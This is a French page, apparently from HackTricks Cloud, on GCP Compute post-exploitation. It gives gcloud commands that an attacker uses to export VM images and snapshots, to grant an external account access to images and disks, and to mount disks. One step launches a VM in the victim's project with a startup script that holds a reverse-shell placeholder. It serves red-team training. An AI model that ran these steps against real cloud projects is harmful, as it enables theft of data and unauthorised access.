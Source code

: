 # GCP - Post-exploitation de Compute

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert Red Team AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

- Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
- Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
- Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
- **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
- **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Compute

Pour plus d'informations sur Compute et VPC (Réseau), consultez :

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exporter et inspecter des images localement

Cela permettrait à un attaquant d'**accéder aux données contenues dans des images existantes** ou de **créer de nouvelles images de VM en cours d'exécution** et d'accéder à leurs données sans avoir accès à la VM en cours d'exécution.

Il est possible d'exporter une image de VM vers un bucket, puis de la télécharger et de la monter localement avec la commande :

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Avant de réaliser cette action, l'attaquant pourrait avoir besoin de privilèges sur le bucket de stockage et bien sûr **de privilèges sur cloudbuild** car c'est le **service** qui sera chargé d'effectuer l'export. De plus, pour que cela fonctionne, le SA de codebuild et le SA de compute ont besoin d'autorisations privilégiées. Le SA de cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` a besoin de :

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Et le SA `<project-id>-compute@developer.gserviceaccount.com` a besoin de :

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exporter et inspecter des instantanés et des disques localement

Il n'est pas possible d'exporter directement des instantanés et des disques, mais il est possible de **transformer un instantané en disque, un disque en une image** et en suivant la **section précédente**, exporter cette image pour l'inspecter localement

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspecter une image en créant une VM

Dans le but d'accéder aux **données stockées dans une image** ou à l'intérieur d'une **VM en cours d'exécution** à partir de laquelle un attaquant **a créé une image**, il est possible d'accorder un accès à un compte externe sur l'image :
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
et ensuite créer une nouvelle VM à partir de celui-ci :
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Si vous ne pouviez pas donner accès à votre compte externe sur l'image, vous pourriez lancer une VM en utilisant cette image dans le projet de la victime et **faire exécuter les métadonnées un shell inversé** pour accéder à l'image en ajoutant le paramètre :
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspecter un instantané/disque en le connectant à une VM

Dans le but d'accéder aux **données stockées dans un disque ou un instantané, vous pourriez transformer l'instantané en disque, un disque en une image et suivre les étapes précédentes.**

Ou vous pourriez **accorder l'accès à un compte externe** sur le disque (si le point de départ est un instantané, accordez l'accès à l'instantané ou créez un disque à partir de celui-ci) :
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Attacher le disque** à une instance :
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montez le disque à l'intérieur de la VM :

1. **Connectez-vous en SSH à la VM** :

```sh
gcloud compute ssh [NOM_INSTANCE] --zone [ZONE]
```
2. **Identifiez le Disque** : Une fois à l'intérieur de la VM, identifiez le nouveau disque en listant les périphériques de disque. Vous le trouverez généralement sous la forme `/dev/sdb`, `/dev/sdc`, etc.
3. **Formatez et Montez le Disque** (s'il s'agit d'un disque neuf ou brut) :
*   Créez un point de montage :

```sh
sudo mkdir -p /mnt/disks/[REP_MONTAGE]
```
*   Montez le disque :

```sh
sudo mount -o discard,defaults /dev/[DISPOSITIF_DISQUE] /mnt/disks/[REP_MONTAGE]
```

Si vous **ne pouvez pas donner accès à un projet externe** à l'instantané ou au disque, vous devrez peut-être **effectuer ces actions à l'intérieur d'une instance du même projet que l'instantané/le disque**.
